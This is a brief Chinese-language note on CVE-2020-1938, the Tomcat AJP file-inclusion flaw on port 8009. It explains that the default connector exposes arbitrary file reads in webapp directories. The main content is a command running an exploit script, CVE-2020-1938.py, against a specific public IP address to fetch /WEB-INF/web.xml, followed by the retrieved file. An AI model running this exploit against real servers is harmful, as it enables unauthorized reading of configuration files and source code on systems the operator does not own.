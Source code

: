 ### CVE-2020-1938

Tomcat默认开启AJP服务（8009端口），存在一处文件包含缺陷。攻击者可以通过构造的恶意请求包来进行文件包含操作，从而读取或包含Tomcat上所有webapp目录下的任意文件，如：webapp配置文件或源代码等。

tomcat默认的conf/server.xml中配置了2个Connector，一个为8080的对外提供的HTTP协议端口，另外一个就是默认的8009 AJP协议端口，两个端口默认均监听在外网ip。

​![image](assets/image-20240920193243-93and04.png)​

```jsp

C:\Users\Anonymous\Desktop>python2 CVE-2020-1938.py 47.113.187.190 -p 8009 -f /WEB-INF/web.xml
Getting resource at ajp13://47.113.187.190:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```
